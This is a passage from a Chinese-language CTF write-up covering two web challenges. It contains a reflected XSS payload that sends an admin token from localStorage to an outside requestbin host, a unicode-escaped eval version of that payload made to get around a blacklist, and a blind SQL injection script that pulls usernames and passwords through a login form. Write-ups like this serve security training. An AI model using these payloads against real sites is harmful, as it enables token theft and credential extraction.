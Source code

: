 ```javascript
```

`/button/preview` 存在反射 xss

通过 localStorage 先拿到 admin token, 然后访问 `/user/info` 得到 flag

```javascript
document.getElementById("button").onclick = function(){
    document.location = "http://http.requestbin.buuoj.cn/1j0pygf1?token=" + localStorage.getItem("token");
}
```

eval 编码绕过 blacklist

```html
"><script>eval("\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0067\u0065\u0074\u0045\u006C\u0065\u006D\u0065\u006E\u0074\u0042\u0079\u0049\u0064\u0028\u0022\u0062\u0075\u0074\u0074\u006F\u006E\u0022\u0029\u002E\u006F\u006E\u0063\u006C\u0069\u0063\u006B\u0020\u003D\u0020\u0066\u0075\u006E\u0063\u0074\u0069\u006F\u006E\u0028\u0029\u007B\u000A\u0020\u0020\u0020\u0020\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u006C\u006F\u0063\u0061\u0074\u0069\u006F\u006E\u0020\u003D\u0020\u0022\u0068\u0074\u0074\u0070\u003A\u002F\u002F\u0068\u0074\u0074\u0070\u002E\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u0062\u0069\u006E\u002E\u0062\u0075\u0075\u006F\u006A\u002E\u0063\u006E\u002F\u0031\u006A\u0030\u0070\u0079\u0067\u0066\u0031\u003F\u0074\u006F\u006B\u0065\u006E\u003D\u0022\u0020\u002B\u0020\u006C\u006F\u0063\u0061\u006C\u0053\u0074\u006F\u0072\u0061\u0067\u0065\u002E\u0067\u0065\u0074\u0049\u0074\u0065\u006D\u0028\u0022\u0074\u006F\u006B\u0065\u006E\u0022\u0029\u003B\u000A\u007D");</script>
```

![image-20230115104122983](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301151041747.png)

![image-20230115104210671](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301151042734.png)

![image-20230115104233771](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301151042848.png)

## Week 3

### Login To Get My Gift

```python
import requests
import time
import json
import re

# dicts = r'{},-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'
dicts = '0123456789abcdef'

flag = ''

for i in range(1, 99999):
    for s in dicts:
        print(s)
        url = 'http://week-3.hgame.lwsec.cn:32291/login'
        # payload = "if((select\ntable_name\nregexp\n'^{}'\nfrom\ninformation_schema.tables\nwhere\ntable_schema\nregexp\ndatabase()\nlimit\n0,1),1,0)".format(flag + s)
        payload = "if((select\nhex(USERN4ME)\nregexp\n'^{}'\nfrom\nUser1nf0mAt1on\nlimit\n0,1),1,0)".format(flag + s)
        payload = "if((select\nhex(PASSW0RD)\nregexp\n'^{}'\nfrom\nUser1nf0mAt1on\nlimit\n0,1),1,0)".format(flag + s)
        data = {
            'username': "xxx'xor\n{}#".format(payload),
            'password': '123'
            }
        res = requests.post(url, data=data)
```